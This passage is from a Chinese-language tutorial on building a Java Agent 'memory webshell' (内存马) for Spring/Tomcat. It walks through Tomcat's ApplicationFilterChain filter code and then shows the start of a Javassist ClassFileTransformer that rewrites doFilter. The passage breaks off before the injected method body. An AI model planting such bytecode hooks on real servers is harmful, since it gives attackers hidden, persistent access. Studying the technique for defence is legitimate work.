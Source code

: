 ```java  
            final ServletResponse res = response;  
            try {  
                java.security.AccessController.doPrivileged(  
                        (java.security.PrivilegedExceptionAction&lt;Void&gt;) () -&gt; {  
                            internalDoFilter(req,res);  
                            return null;  
                        }  
                );  
            } ...  
            }  
        } else {  
            internalDoFilter(request,response);  
        }  
    }  
```  
跟到`internalDoFilter()`方法中  
```java  
private void internalDoFilter(ServletRequest request,  
                                  ServletResponse response)  
        throws IOException, ServletException {  
   
        // Call the next filter if there is one  
        if (pos &lt; n) {  
            ...  
        }  
}  
```  
### 利用Java Agent实现Spring Filter内存马  
复用上面的`agentmain-Agent`，修改字节码的关键在于`transformer()`方法，因此重写该方法即可  
```java  
import javassist.ClassClassPath;    
import javassist.ClassPool;    
import javassist.CtClass;    
import javassist.CtMethod;    
    
import java.lang.instrument.ClassFileTransformer;    
import java.lang.instrument.IllegalClassFormatException;    
import java.security.ProtectionDomain;    
    
public class Filter_Transform implements ClassFileTransformer {    
    @Override    
    public byte[] transform(ClassLoader loader, String className, Class&lt;?&gt; classBeingRedefined, ProtectionDomain protectionDomain, byte[] classfileBuffer) throws IllegalClassFormatException {    
        try {    
    
            //获取CtClass 对象的容器 ClassPool            ClassPool classPool = ClassPool.getDefault();    
            //添加额外的类搜索路径    
            if (classBeingRedefined != null) {    
                ClassClassPath ccp = new ClassClassPath(classBeingRedefined);    
                classPool.insertClassPath(ccp);    
            }    
    
            //获取目标类    
            CtClass ctClass = classPool.get(&#34;org.apache.catalina.core.ApplicationFilterChain&#34;);    
    
            //获取目标方法    
            CtMethod ctMethod = ctClass.getDeclaredMethod(&#34;doFilter&#34;);    
    
            //设置方法体    
			String body = &#34;{&#34; &#43;    
```